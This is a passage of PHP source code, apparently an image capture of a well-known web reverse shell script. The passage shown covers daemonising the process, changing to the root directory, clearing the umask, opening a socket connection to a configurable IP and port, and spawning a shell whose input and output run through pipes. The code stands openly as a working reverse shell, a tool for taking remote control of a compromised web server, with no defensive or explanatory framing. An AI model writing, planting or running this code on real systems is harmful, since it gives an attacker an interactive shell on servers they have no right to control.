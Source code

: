 ```php

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
```